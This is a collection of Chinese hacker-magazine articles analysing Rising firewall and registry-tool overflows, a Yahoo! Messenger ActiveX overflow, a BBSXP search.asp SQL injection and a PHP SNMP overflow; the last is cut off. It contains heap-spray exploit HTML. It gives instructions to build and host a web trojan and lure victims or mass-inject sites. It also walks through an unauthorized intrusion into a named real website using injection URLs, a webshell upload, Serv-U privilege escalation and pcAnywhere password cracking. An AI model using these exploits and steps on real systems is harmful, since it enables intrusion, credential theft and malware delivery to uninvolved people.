最近工作真是繁忙，趁手头工作告一段落，便想研究研究国内防火墙的安全性。前一段时间，灰鸽子闹得国内网络一片恐慌，连新闻联播都播报了；想想自己的爱机整天挂在网上，不安装个好的防火墙怎么行。于是把国内的防火墙产品都下载下来准备安装试用，朋友笑曰国外的什么BlackIce等诸多有名的大牌防火墙漏洞重重，国内的就一定安全吗？一句话听得我一身冷汗。可是我确实也不曾听说国内的防火墙有什么大的漏洞，究其原因我不敢言。为了安全还是拿起工具挨个解剖了看看，首先下刀的就是瑞星的防火墙，用IDA反编译之后，大致看看程序的流程，在读到规则定义这一部分时，竟然发现了一个非常典型的溢出漏洞，下面就请各位随我一起来“庖丁解牛”。

##### 初见端倪

这个经典的漏洞出现在函数sub_49E7D0里，属于`strncpy(dest,src,size)`型的溢出漏洞。从IDA自动分析来看，这个函数是一个跟可执行文件有关的函数，函数入口的代码我们分析如下。

```asm
push 0FFFFFFFh
push offset loc_4B81EB
mov eax, large fs:0
push eax
mov large fs:0, esp
; 这些都是在布置异常处理
sub esp, 15Ch
; 开辟出来15Ch大小的空间，也就是348个字节
push ebx
push ebp
lea ecx, [esp+178h+lpszExeFileName]
push eax
; 一系列参数赋值...
```

在函数开辟好所需要的空间，即348个字节大小的空间后，在函数地址0049E858处有一个条件判断语句“jnz short loc_49E88F”，这里之后函数分为两个部分，我们看看出问题的部分。

```asm
mov edi, ds:strchr
lea esi, [ebp+218h]
; 传递的参数赋值给esi，这个参数其实是一个字符串
; 因为下面使用了字符串函数strchr
push 3Bh
...
```

```asm
push esi
call edi
// 使用strchr函数进行判断传递的字符串中是否有“3b”这个字符，也就是“;”符号
add esp, 8
test eax, eax
jz short loc_49E88A  // 再次条件判断
```

这一次函数跳转后又分为两个部分，其中一个部分是进行对“;”的存在进行再次判断，而另一个部分的代码如下。

```asm
mov edi, esi
or ecx, FFFFFFFFh
xor eax, eax
repne scas byte ptr es:[edi]
not ecx
dec ecx
mov eax, ecx
```

这是一个相当于获取字符串长度的代码，最后获得字符串长度存放在寄存器eax里，紧接着函数进入了下面的关键部分。

```asm
push eax    ; 这里就是上面的字符串长度
lea eax, dword ptr [esp+70h]
push esi    ; 这个就是传递进来的字符串
push eax    ; 目标地址
call dword ptr [<&MSVCRT.strncpy>]
; 这里就是出现问题的地方。
```

由于`strncpy`函数的第三个参数，即要拷贝的字符串长度来自于eax，而eax又来自于对字符串本身的长度取值，这样就相当于如果我们能控制这个传递进来的字符串，让其长度大于目标地址空间的长度，导致发生典型的栈溢出，从而被我们所利用。

正如我们上面分析的，这个函数本身有几个条件判断的地方，我们必须满足这些判断才可能利用这个漏洞，并且我们现在还不清楚这个函数究竟是做什么用的，参数又是从哪里获得的。

##### 分析触发

为了触发这个漏洞，我们还要继续分析这些枯燥的汇编代码，还好IDA帮我们自动分析了各函数间的相互调用过程。出现问题的函数sub_49E7D0由三个地方调用，如图1所示。


一般在分析调用关系时，最好注意分析第一个调用。我们直接双击IDA提示的第一行来到地址0049F120，这个地方使用了一个call指令来调用出现问题的函数。不过先别急着分析，我们向上看看这里的代码是在作什么。我们来到如图2所示的地址0049EF20，这里出现了一个文件名“GameRule.fwr”，在紧接着的代码里，我发现正是从这里读取出的字符串赋值给了问题函数sub_49E7D0。连忙在当前目录下查找名为“GameRule.fwr”的文件，竟然没找到，看来心急吃不了热豆腐，我们继续分析。再次寻找回调函数，在地址0049F280处发现程序使用了OnInitDialog函数，这个函数是用来初始化出来一个对话框。看来这里就是一切的起始地方了，静态分析只能到此了。


整理一下我们现在获得的线索：程序利用一个对话框，进行了对文件“GameRule.fwr”的一系列操作，在获取文件“GameRule.fwr”中的内容后，将内容作为参数传递给了问题函数，而这个参数将有可能导致程序溢出。在仔细思考之后，我恍然大悟到“GameRule.fwr”这个文件不就是一个瑞星防火墙的规则文件吗？而这个文件我们没有找到，一定是我们没有配置某一个规则。我们只要找找瑞星防火墙程序哪里可以配置新的规则不就可以找到新的线索了吗？经过测试，我发现原来这个规则是瑞星的密码保护规则，如图3所示。

如果我们在密码保护规则里增加规则，程序就会产生一个名叫“GameRule.fwr”的文件，这个文件是一个加密文件。我们知道上面的问题函数正是需要“GameRule.fwr”文件里的内容来作为参数，可是加密让我感到迷茫。解铃还需系铃人，利用瑞星自己的增加规则选项，我一项一项测试，终于发现当我们在“其它程序”这一项里输入超过270个字节的数据时，程序出错了，如图4所示。这是非常经典的栈溢出，我们终于触发了这个隐藏的漏洞。


（承接图3后的正文，说明通过规则配置生成并利用GameRule.fwr文件内容作为参数触发漏洞。）


##### 成功利用

正如同我上面分析的，这个漏洞非常典型，并且在所有参数传递的过程中，程序没有使我们的过长字符串变型，并且没有任何对字符的限制，所以我们可以随意使用自己的ShellCode。我这里写了一个简单的引起MessageBox的Shell Code，效果如图5所示。


其实，只要我们成功地构造出了一个ShellCode，在密码保护的增加规则里，把它填到新规则的“其它程序”一项，然后点击“确定”。在防火墙的当前目录下就会产生一个名叫“GameRule.fwr”的文件。只要把这个文件发给任何安装了瑞星防火墙的人，并想办法把“GameRule.fwr”放到他的瑞星防火墙目录下，那么他一旦打开防火墙密码保护设置就会触发该漏洞。此时，危害程度就是我们说了算了，想怎样操作，完全由己而定。

适合读者：入侵爱好者、溢出爱好者

前置知识：汇编语言、缓冲区溢出基本原理

## 多面瑞星

## ——瑞星注册表修复工具溢出0Day

文／图 爱无言

看到本文的标题也许你会非常惊讶，本来是为了电脑安全才安装的瑞星软件，竟然会出现如此大的漏洞。正如同网络上流行的一句话“没有绝对的安全”，瑞星也只是一个杀毒软件。很长一段时间里，我不曾注意这些杀毒软件本身的安全性，也许是思维上的定式，我们都认为利用这些软件会让我们的爱机变得更安全。可当我安装完瑞星2007后，在我分析瑞星杀毒软件、瑞星防火墙这一系列软件的编写思路和实际编写的流程时，我发现了瑞星软件中的一个严重溢出漏洞，问题主要出在瑞星的注册表修复工具中，而别的漏洞是否还有我这里先按下不说，我们先一起看看眼前这个漏洞的发现和具体分析吧。

瑞星的注册表修复工具是连同瑞星杀毒软件一起安装的，如图1所示。这是一款挺好的注册表修复软件，在我们电脑注册表被恶意软件或者非我们正常修改的时候，它可以帮助我们检测到哪些系统关键注册表键值被修改了，并且可以自动修复。这里为了演示其功能，我修改了注册表的IE的“主页”选项，也就是start page键值，打开瑞星注册表修复工具，可以看到瑞星注册表修复工具已经自动检测到了我们的“非法”修改，如图2所示。

因为瑞星的这款修复工具是使用VC编写的，VC我比较熟悉，如果让我利用VC编写一个这样的修复软件也很简单。我的思路是先利用RegOpenKey函数打开注册表的关键键值，然后利用RegQueryValueA函数获得注册表里的具体键值，用这个键值和默认键值进行比较，如果匹配，那就是正常的，反之就是被非法修改了，并给用户显示出注册表键值被修改的提示。根据以往我的编程经验，如果程序员编写程序不严谨，编写过程中出现诸如不论要使用的空间大小而限定buf长度的，如“char buf[10]”这种格式；不进行检查而动态分配空间的，如malloc[n]，其中n是一个动态传递的参数；还有使用一些不做限制的字符串处理函数的等等，都会引发许多安全问题。看到上面我自己编写瑞星注册表修复工具的思路，你会发现这里会有好几个地方会出现安全问题。第一个是读取注册表键值时，如果程序员利用的是定长的buf，那么如果一个注册表键值很长，岂不是会造成溢出？还有，就算是动态分配，如果在处理注册表键值匹配时，使用不做限制的字符串处理函数，也会引发安全问题。我相信瑞星的注册表修复工具也是按照这个思路编写的，那么瑞星的程序员是否会出现这些不严谨的马虎点呢？带着疑问，我开始了测试。

第一个测试的就是注册表键值超长测试，当我把注册表控制IE起始页的键值“start page”修改成“aaaa……”2000个a时，我发现瑞星的注册表修复工具竟然一打开就自动关闭了。看来我们还是猜对了，这个修复工具确实有问题，但是不是溢出，能不能利用，还需要进一步调试才能确定。

这里我使用OllyDBG来进行调试，不过我们得首先将刚才我们修改了的IE起始页的键值“start page”修改成为正常的键值“about: blank”，这样有利于我们调试。用OD打开瑞星注册表修复工具，在首次中断在程序入口点后，我们直接点击“运行”按钮，程序正常运行，现在我们修改IE起始页……


图1


图2的键值“Start Page”，这个键值的具体位置是“HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page”，修改这个键值为2000个字节的“a”，然后点击修复工具上的“扫描”，让程序开始检测注册表的修改。随着“砰”的一声，你会发现 OD 弹出了一个如图3所示的消息框。


图3

原来程序出错后，不知道如何读取地址 57575757 的指令了。有一定溢出经验的朋友，看到这个消息框就知道程序可能发生溢出错误了。我们再次调试这个修复工具，发现确实是出现了溢出，而这个溢出就是因为我上面说的那种“不论要使用的空间大小而限定 buf 长度”的错误导致的。下面让我们具体看看出错的地方，一起研究研究。

用 IDA 反汇编瑞星修复工具后，我们来到地址 00416C40 这里，其中的代码如下，大家注意看我的注释。

```asm
push 400h
; 这里就是动态空间的分配，1024个字节，就是这个地方引起了程序溢出
push eax ; char *
; 这个就是我们用来存放注册表键值的字符串
lea ecx, [esp+...]
call sub_419340
push eax ; int
mov ecx, ebx
call sub_416950
; 这个函数就是关键的读取注册表键值函数
...
call memicmp ; 比较是否为注册表默认键值
jz loc_416E61
```

我们接着看看关键函数 sub_416950，其中的关键代码如下。

```asm
; 第一个关键部分
push eax ; lpFindFileData
push edx ; lpFileName
call ds:FindFirstFileA
```

```asm
; 这里正是程序在对注册表键值判断时考虑到一种情况：修复后的默认注册表键值文件名类似 local page，函数会指向 C:\WINDOWS\system32\blank.htm
; 第二个关键部分
mov byte ptr [edi], 0
push eax ; char *
call _strupr ; 转大写
mov ecx, [esp+...]
push esi ; size_t
push ebx ; char *
push edx ; char *
call _strncmp
; 比较值与系统根目录默认值，不是的话继续比较常见键值匹配
add esp, 10h
```

根据前面我们的分析，程序正是因为对传递到函数 sub_416950 的注册表键值没做长度检查，导致溢出。进一步调试发现，这里的溢出是一种利用覆盖 SEH 的方式进行利用。关于这种方式的利用，我不再分析，但是这里要注意的是两个地方：

- 一是我们用来覆盖的地址，一定要注意有没有小写字母，因为在上面的分析中，函数 strupr 对注册表键值进行了大写转换；
- 二是我们的 ShellCode 也得注意小写字母的出现，在去掉小写字母后，你也可以将本来是大写字母的地方故意写成小写，因为程序会帮助我们自动转换成大写字母。

根据上面的分析，我构造好了一个简单的 ShellCode 后把它写入注册表。现在我们打开瑞星注册表修复工具，结果如图4所示，我们成功了！大家可以用我随文提供的“测试.Reg”文件进行测试，也可以将其修改成为自己的 ShellCode。


图4

最后我再谈谈这个漏洞的利用。修改注册表的方法有很多，尤其是使用网页去恶意修改。修改注册表成功后，我们就可以达到间接利用这个漏洞来获取对别人主机的控制权限了。也许这个漏洞只是瑞星漏洞的冰山一角，其它的漏洞，大家和我一起去挖掘吧！

适合读者：入侵爱好者、溢出爱好者  
前置知识：汇编语言、缓冲区溢出基本原理

#### Yahoo! Messenger ActiveX 远程栈溢出漏洞分析与利用

文/图 张东辉 袁野

雅虎通（Yahoo! Messenger）是由全球领先的互联网公司雅虎推出的即时聊天工具，拥有独特的聊天情景、语音聊天室、超级视频、多方会谈、好友清单、来信提醒、支持防火墙等诸多功能。早在 MSN Messenger 流行之前，国内已有为数不少的 Yahoo! Messenger 用户，而且 Yahoo! Messenger 早已支持手机聊天，可以说是一款老牌的、很有实力的 IM 软件。

不幸的是，目前该软件在系统中注册的多个 ActiveX 控件被发现存在远程栈溢出漏洞，不过还好，受影响的版本目前只局限于 Yahoo! Messenger 8.1（最新版）。但是由于 Yahoo! Messenger 非常流行，因此 Yahoo! 已给这个漏洞最高（highest）安全级别。同时，公司的一位发言人表示：“我们已经开始着手解决这个问题，并期待尽快提供漏洞补丁！”。但在补丁未公布、软件未升级之前，任何防火墙、杀毒软件对这个漏洞都是无能为力。

ActiveX 控件都会在系统中注册，注册表 HKEY_CLASSES_ROOT\CLSID 下就是它们的“藏身之处”，每一项都用“{+CLSID+}”命名。面对这些 CLSID，我们又如何知道哪个是 Yahoo! Messenger 注册的控件呢？很简单，直接搜索关键字“Yahoo!”，搜索到的 HKEY_CLASSES_ROOT\CLSID\ 子项，其名字就是这个控件的 CLSID，子项下的 InprocServer32 子项的默认值即为该控件对应的 DLL 文件的全路径，如图2所示。


##### 漏洞分析

正式分析这个漏洞前，我们还是先简单搭建一个实验环境。很简单，要做的就两件事：

- 一是下载并安装 Yahoo! Messenger 8.1（最新版）；
- 二是安装 OllyDBG（动态跟踪）和 IDA（静态分析）。

这里需要注意的是，安装好 Yahoo! Messenger 后，记得到其安装目录下（C:\Program Files\Yahoo!\Messenger）确认一下存在漏洞的两个 DLL 文件的版本是否如图1所示。如果你安装的这两个文件与此不同的话也没有关系，做好备份，然后把光盘杂志相关中我提供的有漏洞的两个 DLL 文件覆盖掉系统中的即可。

| 有漏洞的DLL | 大小(B) | 版本 | CLSID |
|---|---:|---|---|
| ywcupl.dll | 185,416 | 2.0.1.4 | {DCE2F8B1-A52D-11D4-8FD0-00D0B7730277} |
| ywcvwr.dll | 143,360 | 2.0.1.4 | {9D39223E-AE8E-11D4-8FD3-00D0B7730277} |

图1

通过上面的方法，我们就可以得到 Yahoo! Messenger 注册的所有 ActiveX 控件信息。我已把它们从注册表中导出，共计21个控件，如图3所示。其中2个（ywcupl.dll 和 ywcvwr.dll）已发现有漏洞，其他的还不确定是否存在漏洞，需要 fuzz，有兴趣的朋友可以继续尝试。


经过以上的简单安装配置，实验环境就搭建好了，接下来就要开始分析了！如果大家善于挖掘漏洞的话，首先要问的第一个问题是——“Yahoo! Messenger 这家伙到底注册了多少 ActiveX 控件？都是哪些 DLL 文件？它们对应的 CLSID 是多少？”其实这个问题一查注册表就全都知道了，因为任何一个 ActiveX 控件都会在系统中注册。

知道了 Yahoo! Messenger 注册了21个 ActiveX 控件，下面我们就来重点分析其中有漏洞的 ActiveX 控件 DLL 文件——ywcupl.dll；另一个（ywcvwr.dll）分析过程与此类似，不再赘述。

函数和导出函数，导入函数是 DLL 文件中程序用到的，导出函数是我们可以调用的。那么 ywcupl.dll 中都有哪些可以调用的函数呢？我用 VS2005 的对象浏览器可以很明了地看到 ywcupl.dll 中如图4所示的函数和属性。


图4

该 ActiveX 控件没有正确地验证对 Server 属性的输入。如果用户受骗访问了恶意站点，向该属性传送了超长字符串，然后又调用了 Send() 方法的话，就可能触发栈溢出，导致执行任意指令。

我们首先构造如下的网页，如果你比较熟悉 ActiveX 漏洞的话，下面的网页程序应该不陌生。

```html
<html>
<html>
<object classid='clsid:DCE2F8B1-A520-47D4-8FE0-00D0B7730277' id='target'></object>
<script>
// 先开辟的ShellCode
shellcode = unescape("...");
...
bigblock = unescape("%u9090%u9090");
headersize = 20;
slackspace = headersize + shellcode.length;
while (bigblock.length < slackspace) bigblock += bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length - slackspace);
while(block.length < slackspace + 0x40000) block += block;
block = block + fillblock;
```

```html
// 开辟堆块的多个内存块，存放nop+ShellCode
memory = new Array();
for (x=0; x<800; x++) memory[x] = block + shellcode;
var buffer = "\x0a";
while (buffer.length < 5000)
  buffer += "\x0a\x0a\x0a\x0a";
target.server = buffer;
target.initialize();
target.send();
</script>
</html>
```

其作用就是首先在内存中开辟大量的堆块，每个堆块中存放着大片大片的 90（nop 指令）和 ShellCode，以及 00h，其中开辟的堆块地址包括了 0a0a0a0ah 这个地址。然后通过 CLSID 在网页中嵌入有漏洞的 ActiveX 控件（ywcupl.dll），并触发这个漏洞，使得在访问该网页的主机上实现远程栈溢出。溢出后的 EIP 值为 0a0a0a0ah，返回后的程序将执行到内存的堆区，而这个堆区正是事先开辟好的放有“nop+ShellCode”内存堆块中的一块，因此导致执行任意代码。

那么程序到底在哪里溢出呢？是哪里的程序写得不妥呢？这就需要我们用 OllyDBG 动态跟踪 IE 来访问这个网页，并在关键的程序段附近，用 IDA 静态分析代码流程和结构。我个人认为，这种“动静结合”的方式可以说是分析漏洞效率最高的手段之一。下面我们就具体地一步步来分析。

### 第一步 制造内存访问异常

把上面网马中“buffer += '\x0a\x0a\x0a\x0a';”改成“buffer += '\xff\xff\xff\xff';”。为什么要这样改呢？试想一下，如果直接用 OllyDBG 跟踪，程序没有任何异常，最后计算器弹出来了，而我们什么也没得到，只能说调试失败。调试不下断点就不叫调试，但是我们也不知道 ywcupl.dll 中哪个地方溢出，所以没法下断点。不过我们知道一点，程序溢出后会访问 0a0a0a0ah 处的程序，如果我们把 0a0a0a0ah 换成 ffffffffh，由于内存访问错误，跟踪时程序自然会停下来，这也就相当于下了一个断点，反正效果都是让程序停下来。

### 第二步 分析溢出后的栈帧

通过第一步，已经可以让程序溢出后停下来了，这时我们需要好好观察一下栈里的情况，找到离溢出点上面最近的一个返回地址，返回地址指向的指令的前一个指令一定是一个函数调用，可以断定溢出一定是发生在这个函数内部的。记住这个函数地址，我记的地址是 xxxxA472h（xxxx 是 ywcupl.dll 每次加载到内存的基址）。

### 第三步 用IDA静态分析

有了第二步得到的函数（地址为 xxxxA472h），就好像破案过程中抓到了嫌疑犯，下面就对“嫌疑犯”进行进一步的分析，如图5所示。


### 第四步 OllyDBG跟踪确认

上面三步可以说已经把溢出的位置和原因分析清楚了，最后把网马中的“buffer += '\x0a\x0a\x0a\x0a';”再改回来，然后用 OllyDBG 再次跟踪，通过观察分析栈的变化情况，确认我们上面分析的结论。至此，漏洞分析就完成了。总的来说，ywcupl.dll 溢出的根本原因是没有正确地验证对 Server 属性的输入，致使超长的 Server 属性字符串使得 send() 函数内部发生栈溢出。

##### 漏洞利用

由于本漏洞属于 ActiveX 控件漏洞，所以利用本漏洞写网马是相当容易的！漏洞的发现者 Exception 已经在 milw0rm.com 上公布了两个网马生成器的源码，一个是给 ywcupl.dll 用的，另一个是给 ywcvwr.dll 用的。下面我们一起来生成一个网马。

首先需要编译一下网马生成器的源码，用 VC6.0 是最合适不过的了，如图6所示。网马生成器的源码可以在 http://milw0rm.com/exploits/4053 下载到；杂志相关中也有。其次就是搭建一个 Web 服务，专门用来让攻击的目标主机下载恶意程序并执行。建个 Web 服务器应该是小菜一碟了，IIS、Apache 都可以，然后选一个目录存放恶意程序。我用 IIS 建了一个 Web 服务，


并把 calc.exe（计算器）放到根目录下，那么对应的 URL 就是 http://127.0.0.1/calc.exe。接下来用编译好的网马生成器在命令行下生成网页木马，命令是：“yahoo_exp.exe http://127.0.0.1/calc.exe”，最终在同路径下得到一个网页 Click_here.html，这个网页就是所谓的网页木马，不要随便乱点，更不要用浏览器打开，如图7所示。


最后，你需要把这个网页也放到你的网站上，如果放到根目录下，那么对应的 URL 就是 http://127.0.0.1/Click_here.html，然后让你想攻击的人来访问这个网页，或者 SQL 注入某个网站，把它们网站的链接都改成 http://127.0.0.1/Click_here.html，也可以实现大面积的攻击，效果更好！

##### 感想

如果你很关注最新公布的漏洞的话，是否发现最近一段时间里，ActiveX 控件的漏洞数量呈现递增的趋势，越来越多的 ActiveX 控件漏洞被挖掘出来。这种漏洞的最大危害也许就是网络木马，这将造成网民的恐慌心理，手里握着鼠标就是不敢点。网页中花里胡哨的东西，甚至很正常的网页，谁知道背后链接的是什么啊！很有可能就是最新的 ActiveX 控件 0Day 网马，在我们机子上开个端口，删个文件，添个用户，装个鸽子……简直易如反掌！另外，Yahoo! Messenger 还注册了很多 ActiveX 控件，21个中有2个已经发现有漏洞，剩下的19个也说不定啊！有兴趣的朋友可以试着自己挖掘一下，这会加深你对漏洞的认识的！

适合读者：入侵爱好者  
前置知识：SQL

## BBSXP 0Day

### 详细分析◎获取系统权限

文/图 cnbird[H.U.C] 河北省泊头市杨宇


昨天在群里聊天的时候，有朋友说 BBSXP 出了最新的漏洞了，并且告诉我是 search.asp 文件出了问题，于是赶紧下载了一个最新版的 BBSXP 2007，最后终于发现了漏洞。声明这个 0Day 不是我发现的，只不过是我做了比较详细的分析而已。

##### 漏洞分析

IIS 对于广大菜鸟来说，相对来说会比较难配置。在进行漏洞分析之前，这里向大家推荐一款小巧的 ASP Server——小旋风 AspWebServer，只有几百K，但是稳定性作者称比 IIS 还强，具体怎么样就要大家自己感觉了。

安装好 BBSXP 后，我们打开 search.asp，如图1所示，出问题之处就是我划线的地方，SortBy 这个变量没有充分的过滤。图2是我搜索这个变量的结果，这个变量是第一次被引用，没有经过任何过滤，存在问题的代码如下，我们就详细地对此分析一下。

```asp
if Request("menu")="Result" then
    Keywords=HTMLEncode(Request("Keywords"))
    SortBy=HTMLEncode(Request("SortBy"))
    Item=HTMLEncode(Request("Item"))
...
```

这段代码的意思是说，如果 menu 变量的值为 result 的时候，就把客户端传过来的 keywords 关键字赋值给 Keywords，以下都是一个意思。我们还是先来看 HTMLEncode 这个函数的原形吧。利用 ASP Studio 的搜索功能找到这个函数，代码如下所示，下面重点解释一下。

```asp
fString=Trim(fString)
' 把传递过来的变量做去空格处理
fString=Replace(fString,CHR(9),"")
fString=Replace(fString,CHR(13),"")
...
fString=Replace(fString,CHR(34),"&#34;")
fString=Replace(fString,CHR(39),"&#39;")
...
fString=Replace(fString,CHR(60),"&lt;")
fString=Replace(fString,CHR(62),"&gt;")
...
```


我把和漏洞利用相关的部分做了注释，这段代码把我们的“'”和空格给替换掉了，这使得我们自己构建的 SQL 不能成功地执行。

对于 SQL 语句的查询，相信大家已经都习惯了“select password from [admin]”，如果照此查询的话，语句就会变成“selectpasswordfrom[admin]”，导致查询失败。好在 Access 中支持“()”的查询方式，例如“list.asp?id=(2)and(1=2)union(select(1),2,3,4,5,6)from[admin]”这样的方式。有了这里的基础，我们继续往下看。

接下来我们用 WSockExpert 抓包具体地分析一下 search.asp 是如何提交数据的，这里以 www.chinavet.net 为例说明，我们输入 test，然后点提交，数据包

### 特别专题 / SPECIAL SUBJECT

的格式如图3所示，图中划线的“Keywords=test&Item=Topic&DateComparer=365&SortBy=Desc&ForumID=0&VerifyCode=5625”是最关键的地方，也是我们构建语句的地方。我们知道，SortBy 没有过滤，那我们就先看一下 Access 的字段和表名是什么吧。


图3

由图4可知，bbsxp_user 是存储用户的表，一共有 25 个字段。知道了这些以后，我们就可以用上面的例子来构造语句了。我们构造的语句如下：


图4

```text
Search.asp?menu=Result&Keywords=test&Item=Topic&DateComparer=365&SortBy=union(select[userid],1,1,1,userpass,username,1,1,1,1,1,1,1,1,1,1,1,1,1,[userid]from[bbsxp_users])&ForumID=1&VerifyCode=1234
```

解释一下，Keywords 就是搜索的关键字了，这里必须要指定，并且能够搜索得到，不然的话不能成功利用。SortBy 这里是构造语句的地方，ForumID 这里也必须指定，并且前面搜索的内容要在这个 ForumID 中有内容，不然也不能成功，最后的 VerifyCode 是验证码。

好了，漏洞分析就到这里了。其实 BBSXP 2007 有非常多的漏洞，大家利用 ASP Studio 的整个文件搜索功能搜索所有和用户交互的变量，就能找到漏洞了。这也算是一个找漏洞的小方法吧，希望大家能仔细体会这几句话，非常有用。

### 实践部分

由于是最新的漏洞，所以采用 BBSXP 2007 的网站基本上都是有漏洞的，我选择的目标是 www.chinavet.net。下面我们直接进入漏洞利用，我将一步一步地带领大家来入侵，涉及到漏洞的利用条件时，我会再详细讲解一下。

- 第一步，注册一个用户，因为只有注册的用户才有搜索的权限，注册部分就不说了，会上网的基本上都会。
- 第二步，点击论坛标题栏上的“搜索”进入下一步。
- 第三步，输入我们上面构造的语句，如图5所示，要把对应的验证码写好。构造好后的完整语句如下：


图5

```text
http://www.chinavet.net/bbs/Search.asp?menu=Result&Keywords=test&Item=Topic&DateComparer=365&SortBy=union(select[userid],1,1,1,userpass,username,1,1,1,1,1,1,1,1,1,1,1,1,1,[userid]from[bbsxp_users])&ForumID=24&VerifyCode=1849
```

这里要注意的是，ForumID 这里为 24，因为我在 24 这个分版里面发了一个名为 test 的帖子。执行以后，却发现居然出错了，如图6所示。了解 Access 的朋友，看到这个错误后，应该知道这里的意思，它说明我们构造的语句中的字段数不符合 MDB 数据库里面的表字段。我们去掉一个 1 以后再试一下，结果如图7所示，我们成功了。不过这只说明我们的运气好而已。在实际应用中，有时还要添加字段，或者减更多的字段，这就需要大家在实际的测试中自己摸索掌握了。


图6


图7

### 获取WebShell并提权

但是从搜索结果来看，我们只得到了 MD5 密码，并没有得到 username，怎么办呢？我们将提交的语句调整一下，将紧跟在“username”后的“1”替换为“username”试一下，结果如图8所示，我们终于拿到用户名了。也就是最终提交的语句为：


```text
http://www.chinavet.net/bbs/Search.asp?...union(select[userid],1,1,1,userpass,username,username,1,1,1,1,1,1,1,1,1,1,[userid]from[bbsxp2users])...
```

之后的事情就是破解 MD5 密码了，我就不再废话了。

其实到这里，漏洞分析就算已经完毕了，但是我们主要的任务是拿下服务器，所以还要继续下去。首先讲解一下拿 WebShell 的方法。我们利用得到的用户 sunbox 密码 5223689 登录到后台，如图9所示，进入后台后点“基本设置->上传附件->在允许上传的附件类型”中添加 htr 或者 php，然后把上面的上传选项打开。回到任何一个子版面，然后点击发帖，再选择其中的“上传附件”，把我们的 htr 或者 php 马上上传上去就 OK 了，如图10所示，成功上传！之后我们把出现在内容栏里的地址复制一下，加在 BBS 后面，构成完整的地址，就得到我们的木马地址了……访问后即可得到 WebShell 了，如图11所示，接下来的事就是提权了。


我们在 CMD 模式下输入“ftp www.chinavet.net”，确认该主机采用的是 Serv-U，如图12所示，版本为 6.0。这个版本也存在本地提权漏洞。如图13所示，我用 WebShell 自带的 Serv-U 提权功能试了试，显示提权成功，赶紧连上 3389，却发现没有开放。


之后我用 WebShell 的跳转功能来到了“C:\Documents and Settings\All Users\Application Data\Symantec”，在这里发现了 PCAnywhere 远程控制……发现了 3 个 cif 文件，分别下载回来破解，结果发现了 2 个密码一样的，如图15所示。再用 PCAnywhere 连接上客户端，此时需要重新输入进入 Windows 的密码，没关系，利用前面 Serv-U 提权加的用户即可进去了，这样就完成了整个入侵提权过程。


综观整篇文章，我们不难发现 SQL 注入的重要性。其实最重要的还是要详细地分析利用，还有利用过程中出现的任何错误……我们只有对出现的错误进行合理的分析总结，才能不断提高我们的黑客技术。

最后总结一下整个漏洞的利用过程：首先进行代码分析 -> 找到漏洞点 -> 构造 SQL 语句 -> 成功利用并且进入后台 -> 拿到 WebShell 并提权获取系统权限。这篇文章算是比较完整的了，希望能对读者朋友们有所帮助。

## PHP SNMP扩展库函数栈溢出漏洞分析

- 适合读者：入侵爱好者、溢出爱好者
- 前置知识：C 语言、缓冲区溢出基本原理


文／图 张东辉 袁野

PHP（PHP: Hypertext Preprocessor）是一种被广泛使用的开放源代码多用途脚本语言，尤其适用于 Web 开发并可以嵌入到 HTML 中去。其语法利用了 C、Java 和 Perl，非常容易学习。该语言的主要目标是让 Web 开发人员可以很快写出动态生成的网页，但 PHP 的功能远不止如此。如果你熟悉 PHP 的话，你会发现 PHP 的功能实在是太多、太强大了！

也正是因为 PHP 提供了庞大的功能，因此带来了很多扩展库，当要使用某些功能时，只需配置相应的扩展库即可。然而林子大了，什么鸟都有可能有。本文将要分析的这个漏洞是关于 PHP 5.2.3 及以下版本在 NT 系统中的简单网络管理协议（SNMP: Simple Network Management Protocol）扩展库的某个库函数的栈溢出漏洞。我们知道，SNMP 是身为 MIS 或是网络管理人员所必须要碰到的重要课题，能够在 PHP 中使用 SNMP 的网管函数应该是一件幸事，但是现在他们的 PHP 系统将有可能成为被攻击对象。


图1

这个库函数仅用于 Windows NT 系统。事实上，为了在 Unix 中使用 SNMP 函数库，我们需要安装 UCD SNMP 或 NET-SNMP 包。在 Windows 中，这些函数只能用于 NT，而不能用于 Windows 98。

##### 漏洞分析

研究 PHP 的漏洞，首先建议大家有一本 PHP 电子手册，随时查阅 PHP 的函数参考和语言参考等等；其次有可能的话下载最新的 PHP 源码；最后还要在本机搭建一个 PHP 实验平台，个人感觉只要安装一个 Apache+PHP+MySQL 的 APM 套件即可，例如 APMServ、APMXE、XAMPP、GApm、WAMP、phphome、easyapm、EasyPHP 等等。

本文我们选择了 APMServ，从网上下载下来，安装好后，就算环境搭建好了，这样要比编译安装简单多了！如图1所示。

下面我们查一下 PHP5 手册，可以看到 PHP5 中有很多扩展库，如图2所示。我们会发现，原来 PHP 的

| 扩展 DLL | 说明 | 备注 |
|---|---|---|
| php_pdf.dll | PDF 函数库 | 无 |
| php_pgsql.dll | PostgreSQL 函数库 | 无 |
| php_printer.dll | 打印机函数库 | 无 |
| php_shmop.dll | 共享内存函数库 | 无 |
| php_snmp.dll | SNMP 函数库 | 仅用于 Windows NT |
| php_soap.dll | SOAP 函数库 | PHP >= 5.0.0 |
| php_sockets.dll | Socket 函数库 | 无 |
| php_sybase_ct.dll | Sybase 函数库 | 需要 Sybase 客户端库 |

图2

在电子手册中点击上面的“SNMP 函数库”链接，可以继续查看关于这个扩展库的详细信息和函数说明，其中主要的函数如图3所示。我们特别关注其中的 snmpget() 函数，因为已确定这个函数是有漏洞的。当然，还不能排除其他函数存在漏洞的可能，因此有兴趣的朋友稍后可以尝试一下。

点击上面的“snmpget”链接，我们将会在手册中看到关于这个函数的详细信息，如图4所示。从这个简短的解释中，我们得知，首先，snmpget 函数在 PHP3、PHP4 和 PHP5 中都适用。该函数用于获取一个 SNMP 对象，共需要 3 个参数。第 1 个参数为 hostname，指定 SNMP 代理；第 2 个参数为 community；第 3 个参数为 object_id，指定 SNMP 对象值。

| 函数 | 说明 |
|---|---|
| snmp_get_quick_print | 返回 UCD 库中 quick_print 设置的当前值 |
| snmp_valueretrieval | 返回 SNMP values 将被返回的方法 |
| snmp_read_mib | 读取并解析 MIB 文件到活动 MIB 树 |
| snmp_set_enum_print | 返回枚举值（而非原始整数） |
| snmp_set_oid_numeric_print | 返回对象及其对象 ID |
| snmp_set_quick_print | 设置 UCD SNMP 库中 quick_print 的值 |
| snmp_set_valueretrieval | 指定 SNMP values 的返回方法 |
| snmpget | 获取一个 SNMP 对象 |
| snmpgetnext | 获取下一个 SNMP 对象 |
| snmprealwalk | 返回指定树的所有对象（包含对象 ID） |
